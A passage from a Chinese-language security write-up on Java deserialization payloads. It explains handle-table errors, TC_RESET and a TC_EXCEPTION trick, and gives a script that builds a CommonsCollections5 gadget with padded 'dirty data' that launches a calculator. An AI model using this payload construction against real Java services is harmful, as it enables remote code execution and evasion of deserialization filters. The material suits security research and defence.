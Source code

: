 在验证payload时发现报错：  
  
Exception in thread "main" java.lang.ClassCastException: java.io.ObjectStreamClass cannot be cast to java.lang.String  
  
出现错误的位置在读取REFERENCE处，对读取到的handle强转为String出错。  
```
case TC_REFERENCE:
    return (String) readHandle(false);
```  
  
怀疑是因为加了classdesc导致handle table错乱了，断点调试下发现本应取到6号元素，但取到了5号元素。  
  
![](/articles/wechat2md-3aa5535ba156cacaaac74083bd0b3b6b.png)  
  
在前面介绍TC_RESET时提到过，TC_RESET作用是清空handle table，所以可以在gadget前加一个TC_RESET  
  
但又出错了，因为handleReset验证了层数，也就是gadget必须在第一层：  
```
private void handleReset() throws StreamCorruptedException {
    if (depth > 0) {
        throw new StreamCorruptedException(
            "unexpected reset; recursion depth: " + depth);
    }
    clear();
}
```  
  
通过查找clear函数，发现在readFatalException时先调用了clear，再readObject0，刚好符合条件。所以可以在Gadget前加一个TC_EXCEPTION，将Gadget作为Exception解析，在解析前会清空handle table，最后脚本如下，成功弹计算器。  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
dirtyData += "\x75"// TC_ARRAY
dirtyData += string(descSer[4:]) // 去掉magic header
dirtyData += "\x00\x00\x00\x02" // 数组长度是2
dirtyData += "\x7B"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
```

```  
  
但缺点是解析的对象会强转为IOException并抛出，控制台不太好看。  
  
  
**skipCustomData**  
  
![](/articles/wechat2md-151d5edc5897dd0c05900660571b46ab.png)  
  
#   
  